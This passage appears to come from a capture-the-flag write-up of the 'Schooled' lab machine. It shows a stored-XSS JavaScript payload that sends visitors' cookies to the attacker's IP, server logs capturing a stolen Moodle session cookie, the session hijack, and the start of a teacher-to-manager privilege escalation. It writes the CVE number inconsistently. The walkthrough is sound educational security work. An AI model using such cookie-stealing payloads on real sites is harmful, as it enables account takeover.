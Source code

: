 

#### Steal Cookie

I'll write a quick JavaScript payload that will generate a GET request
back to me that includes the visiting user's cookie:



    var fetch_req = new XMLHttpRequest();
    fetch_req.open("GET", "http://10.10.14.7/?cookie=" + document.cookie, false);           
    fetch_req.send();



The next time Schooled requests the script, it immediately makes another
request with the cookie:



    10.10.10.234 - - [05/Apr/2021 14:52:09] "GET /pwn.js HTTP/1.1" 200 -
    10.10.10.234 - - [05/Apr/2021 14:52:09] "GET /?cookie=MoodleSession=1d5priq1upigf4u74ej6c9nfvn HTTP/1.1" 200 -



In the firefox dev tools, in the Storage section, I'll replace my
`MoodleSession` cookie with the one I just got:

![](/img/image-20210401145439543.png)

Now on visiting `http://moodle.schooled.htb/moodle`, I'm logged in as
Manuel Phillips:

![](/img/image-20210401145519020.png)

### Moodle Access as Lianne

#### Add Manual as Manager

From the initial page, Manuel is a Mathematics Lecturer. There's not too
much to find. There are no messages with information. No obvious places
to get RCE or upload anything that could execute.

I turned back to the Moodle Security page, and two issues before the
stored XSS, there's another one that's interesting, [Course enrolments
allowed privilege escalation from teacher role into manager
role](https://moodle.org/mod/forum/discuss.php?d=407393#p1644268)
(MSA-20-0009, CVE-2021-14321).

[This GitHub page](https://github.com/HoangKien1020/CVE-2020-14321) has
some sparse details on the exploit, including a link to a blog that is
no longer up, and [this video on Vimeo](https://vimeo.com/441698193)
showed the details of how to exploit it. I need to know someone who has
the manager role. Back on the teachers page, Lianne Carter was listed as
"Manager & English Lecturer", so I can try her.

I'll start by going to the Math class, and selecting Participants from
the menu on the left. On that page, I'll click the "Enrol users" button
to get a form:
